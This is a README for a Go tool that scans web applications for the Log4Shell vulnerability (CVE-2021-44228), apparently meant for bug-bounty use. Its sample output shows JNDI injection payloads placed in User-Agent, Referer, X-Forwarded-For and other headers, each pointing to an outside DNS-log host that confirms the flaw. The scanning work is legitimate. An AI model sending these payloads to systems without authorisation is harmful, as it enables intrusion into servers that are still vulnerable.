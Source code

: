 #  log4shell-looker a log4jshell vulnerability scanner for bug bounty

(Written in Go because, you know, "write once, run anywhere.")

This is a simple tool that can be used to find vulnerable instances of
log4j 1.x and 2.x (CVE-2021-44228) in installations of
Java software such as web applications.

The scan tool currently checks for discover log4shell vulnerability, current feature of tools:  `Cookies` and `Content-Type` and `URL Path`, `User-Agent`


# Using the scanner
```bash
$ go run main.go --help
Usage of main:
  -mode string
        please usage mode [urlpath, header, useragent] (default "[urlpath, header, useragent, cookie, contents]")
  -url string
        please enter you url for scan (default "url")


$ go run main.go -mode=useragent -url=http://127.0.0.1:8080
[+++] Your domain generated :  rfcbd0.dnslog.cn
[+++] Your session is :  1s16v8k8fmrmd5rljun51lmur4
[***] Payload :  User-Agent:${jndi:ldap://rfcbd0.dnslog.cn/}
[---] Isn't to vulnerability CVE-2021-44228
#################### 0 ############################
[+++] Your domain generated :  rfcbd0.dnslog.cn
[+++] Your session is :  1s16v8k8fmrmd5rljun51lmur4
[***] Payload :  Referer:${jndi:ldap://rfcbd0.dnslog.cn/}
[---] Isn't to vulnerability CVE-2021-44228
#################### 1 ############################
[+++] Your domain generated :  rfcbd0.dnslog.cn
[+++] Your session is :  1s16v8k8fmrmd5rljun51lmur4
[***] Payload :  X-Forwarded-For:${jndi:ldap://rfcbd0.dnslog.cn/}
[---] Isn't to vulnerability CVE-2021-44228
#################### 2 ############################
[+++] Your domain generated :  rfcbd0.dnslog.cn
[+++] Your session is :  1s16v8k8fmrmd5rljun51lmur4
[***] Payload :  Authentication:${jndi:ldap://rfcbd0.dnslog.cn/}
[---] Isn't to vulnerability CVE-2021-44228
#################### 3 ############################
[+++] Your domain generated :  rfcbd0.dnslog.cn
[+++] Your session is :  1s16v8k8fmrmd5rljun51lmur4
[***] Payload :  X-Api-Version:${jndi:ldap://rfcbd0.dnslog.cn/}
[***] DNS log result :  [["rfcbd0.dnslog.cn","172.253.238.4","2021-12-16 14:45:19"]]
[***] Is Vulnerability to CVE-2021-44228 - [critical]
```

# Building from source

Install a [Go compiler](https://golang.org/dl).

Run the following commands in the checked-out repository:
```
go run main.go -mode=header -url=https://www.example.com/
Or
go build -o main
```
(Add the appropriate `.exe` extension on Windows systems, of course.)

# License

GNU General Public License, version 3

# Author

Ramin Farajpour Cami <<ramin.blackhat@gmail.com>>


